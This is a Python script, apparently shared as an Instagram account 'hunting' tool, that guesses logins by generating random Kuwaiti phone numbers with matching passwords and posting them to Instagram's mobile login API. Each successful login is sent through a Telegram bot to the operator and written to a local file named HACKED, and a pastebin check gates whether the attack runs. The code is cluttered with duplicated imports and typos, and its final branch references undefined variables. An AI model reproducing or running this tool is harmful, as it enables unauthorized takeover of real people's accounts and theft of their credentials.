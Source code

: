 # virosAlsh
اداة صيد علوش vip
import os,sys,subprocess
subprocess.getoutput("pip install requests")
import requests,sys,os,time
import os
import pyfiglet, requests, os, sys, time
import requests, os, random, json, threading, secrets, uuid, pyfiglet, threading, sys, time
from colorama import Fore, Style
from time import sleep
from datetime import datetime
from secrets import token_hex
from uuid import uuid4
from random import randint
from user_agent import generate_user_agent
import sys as n
import time as mm
import requests, os, random, json, threading, secrets, uuid
from colorama import Fore, Style
from time import sleep
from datetime import datetime
from secrets import token_hex
from uuid import uuid4
from user_agent import generate_user_agent
import pyfiglet
import os
import random
import uuid
import requests
import string
from user_agent import generate_user_agent
from datetime import datetime
from random import *
from time import sleep
import requests
import os
import random
import json
import threading
import secrets,uuid
from colorama import Fore, Style
from time import sleep
from datetime import datetime
from secrets import token_hex
os.system("title " + " #TTH Was Here - @MS_ZIAD")
clear = lambda : os.system('cls')
try:
    import requests
except ImportError:
    os.system('pip install requests')
    import requests
    clear()
try:
    from colored import fg
except ImportError:
    os.system('pip install colored')
    from colored import fg
    clear()
try:
    from uuid import uuid4
except ImportError:
    os.system('pip install uuid')
    from uuid import uuid4
    clear()
try:
    import random
except ImportError:
    os.system('pip install random')
    import random
    clear()
color3 = fg(2)
color4 = fg('9')    

def close():
    input('- Press Enter To Exit /')
    sys.exit()

clear()
try:
    import uuid
except:
    os.system ("pip install uuid")
try:
    from random import *
except:
    os.systeam("pip install random ")
try:
     import string
except:
    os.system("pip install string")
try:
    import requests 
except:
    os.system ("pip install requests ")
try:
    from user_agent import generate_user_agent
except:
    os.system("pip install user_agent ")
try:
    from datetime import datetime
except:
    os.system("pip install datetime ")
try:
    import time
except:
    os.system("pip install time")
os.system("clear")
try:
    import pyfiglet
except:
    os.system("pip install pyfiglet")
os.system("clear")
import pyfiglet
import os
from time import sleep
import webbrowser
import os, sys, requests
H = '\033[2;35m'
J = '\034[1;31m'
I = '\033[2;36m'
K='\033[2;35m'
P = '\033[2;35m'
A = '\033[2;36m'
E = '\033[1;31m'
S = '\033[2;31m'
G = '\033[1;31m'
E = '\033[1;32m'
Z = '\033[1;33m'
import user_agent, random, uuid, requests, string
from user_agent import generate_user_agent
from datetime import datetime
from random import *
from time import sleep
import requests, os, random, json, threading, secrets, uuid
from colorama import Fore, Style
from time import sleep
from datetime import datetime
from secrets import token_hex
from uuid import uuid4
import pyfiglet, webbrowser


sleep(1)


sleep(1)


os.system('clear')
aa = 0
zz = 0
ib = 0
(A+' Enter TOKEN ')
print (""" Enter TOKEN
""")
tok = input (S+"     >> ")
sleep(2)
os.system('clear')
(A+' Enter ID ')
print(""" Enter ID
""")
ID = input (A+"     >> ")
sleep(2)
os.system('clear')
w = 'https://pastebin.com/R0msdDfe'
import time
t = time.localtime()
current_time = time.strftime("%H:%M:%S", t)
sleep(2)
rss = requests.get(w).text
if 'TTH' in rss:
    sleep(0.1)
    r = requests.Session()
    user = '0987654321'
    while True:
        us = str(''.join((random.choice(user) for i in range(6))))
        username = '+96560' + us
        password = '60' + us
        #Team Nimus
        url = 'https://i.instagram.com/api/v1/accounts/login/'          
        headers = {'User-Agent': 'Instagram 113.0.0.39.122 Android (24/5.0; 515dpi; 1440x2416; huawei/google; Nexus 6P; angler; angler; en_US)',  'Accept':'*/*', 
         'Cookie':'missing', 
         'Accept-Encoding':'gzip, deflate', 
         'Accept-Language':'en-US', 
         'X-IG-Capabilities':'3brTvw==', 
         'X-IG-Connection-Type':'WIFI', 
         'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8', 
         'Host':'i.instagram.com'}
        uid = str(uuid4())
        data = {'uuid':uid,  'password':password, 
         'username':username, 
         'device_id':uid, 
         'from_reg':'false', 
         '_csrftoken':'missing', 
         'login_attempt_countn':'0'}
        req_login = r.post(url, headers=headers, data=data, allow_redirects=True)
        if 'logged_in_user' in req_login.text:
            zz += 1
            print(G + 'username ==> : ' + username + ': password ==> : ' + password)
            tlg =(f'''https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text=𝐍𝐞𝐰 ➥•𝐋𝐨𝐠𝐢𝐧 by Team Animus
❅───────────❅
👤 ➥•𝑬𝒎𝒂𝒊𝒍 : {username}
📟➥•𝑷𝒂𝒔𝒔𝒘𝒐𝒓𝒅 : {password}
❅───────────❅''')
            i = requests.post(tlg)
            with open('INsTA V2.txt', 'a') as (HACKED):
                HACKED.write(' [-] UserName : {} \n [-] Passowrd : {} \n\n'.format(username,password))
        elif '"message":"challenge_required","challenge"' in req_login.text:
            ib+=1
            print (Z+'username S ==> : '+username+': password ==> : '+password)
        else:
            print (K+'username ==> : '+username+': password ==> : '+password)
            aa+=1
else:
            print(E + 'username ==> : ' + username + ': password ==> : ' + password)
            aa += 1
